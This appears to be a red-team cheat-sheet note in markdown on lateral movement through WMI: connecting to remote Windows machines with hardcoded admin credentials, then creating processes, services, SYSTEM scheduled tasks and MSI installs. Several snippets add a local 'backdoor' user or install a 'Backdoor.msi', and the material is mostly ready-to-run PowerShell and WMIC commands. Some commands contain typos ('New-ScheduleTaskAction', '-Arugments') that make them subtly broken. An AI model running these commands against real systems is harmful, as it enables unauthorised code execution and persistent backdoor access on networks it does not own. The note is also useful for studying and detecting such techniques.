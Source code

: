 [[WMI]]
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
	CommandLine = $command;
} 
```
### WMIC
```powershell
# For legacy system using wmic.exe
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
	Name = "MyService";
	DisplayName = "MyService";
	PathName = "net user backdoor password /add";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete
```
# Remote Schedule Task Creation
- Required Group Membership: Administrators
### Poweshell
```powershell
# Create command and argument
$Command = "cmd.exe"
$Args = "/c net user backdoor pass /add"

# Create and Run schedule task
$Action = New-ScheduleTaskAction -CimSession $session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "backdoor"
Start-ScheduledTask -CimSession $Session -TaskName "backdoor"

Unregister-ScheduledTask -CimSession $session -TaskName "backdoor"
```
# Installing MSI packages
- MSI packages can be installed using WIM using the `Win32_Product` class's static `Install` method 
### Powershell
```powershell
Invoke-CimMethod -CimSession $session -Class Win32_Product -MethodName Install -Arugments @{
	PackageLocation = "C:\Windows\Backdoor.msi";
	Options = "";
	AllUsers = $false;
}
```
### WMIC
```Powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```